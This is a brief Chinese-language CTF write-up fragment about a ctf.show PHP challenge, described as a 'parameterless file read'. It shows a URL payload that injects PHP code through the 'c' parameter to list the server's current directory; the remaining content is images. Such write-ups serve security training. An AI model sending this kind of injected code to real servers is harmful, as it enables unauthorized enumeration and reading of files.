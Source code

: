 <figure><img src="../.gitbook/assets/image 29.png" alt=""><figcaption></figcaption></figure>

很显然是个无参数读取文件，我们首先查看当前目录下的文件有哪些

```php
http://5a6291ec-129d-4e7f-b30b-7776441151ff.challenge.ctf.show/?c=print_r(scandir(pos(localeconv())));
```

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
